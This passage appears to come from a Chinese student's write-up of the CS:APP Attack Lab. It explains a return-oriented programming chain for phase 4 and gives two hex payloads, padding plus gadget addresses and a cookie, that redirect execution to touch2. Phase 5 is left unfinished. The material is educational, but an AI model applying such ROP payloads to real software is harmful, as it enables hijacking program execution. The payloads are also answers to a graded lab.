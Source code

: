 >
>很容易想到，首先ret到`popq %rax`这里，然后将cookie pop给$rax，然后继续ret到`mov %rax,%rdi`这里，然后继续ret，ret到`touch2`函数这里即可完成
>
>```
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>cc 19 40 00 00 00 00 00 
>fa 97 b9 59 00 00 00 00
>a2 19 40 00 00 00 00 00
>ec 17 40 00 00 00 00 00 
>或者
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>31 31 31 31 31 31 31 31
>ab 19 40 00 00 00 00 00  #这里不一样
>fa 97 b9 59 00 00 00 00
>a2 19 40 00 00 00 00 00
>ec 17 40 00 00 00 00 00 
>```
>
>
>
>
>
>
>
>so easy
>
><img src="https://yszhou.oss-cn-beijing.aliyuncs.com/img/20210528220041.png" alt="image-20210528220041126" style="zoom:80%;" />



### phase_5

>
>
>有空再补上，
>
>可以参考
>
>https://zhuanlan.zhihu.com/p/28476993